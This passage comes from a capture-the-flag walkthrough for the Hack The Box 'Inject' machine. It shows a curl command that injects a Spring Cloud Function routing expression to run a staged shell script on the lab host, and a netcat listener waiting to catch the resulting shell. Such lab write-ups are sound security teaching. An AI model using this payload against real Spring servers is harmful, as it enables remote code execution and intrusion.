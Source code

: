 ![](https://github.com/ElSwix/HTB-WriteUPS/blob/main/EN/Machines/Easy/Inject/img/14.png?raw=true)


Now, finally, we will proceed to execute the file that we have stored at the path `/tmp/pwned.sh`.

```
elswix@parrot > curl -X POST  http://10.129.35.222:8080/functionRouter -H 'spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("bash /tmp/pwned.sh")' --data-raw 'data' -v
```

Before executing the file, we need to make sure we are listening on port 443 using the netcat tool.

```
elswix@parrot > nc -nlvp 443
```


![](https://github.com/ElSwix/HTB-WriteUPS/blob/main/EN/Machines/Easy/Inject/img/15.png?raw=true)
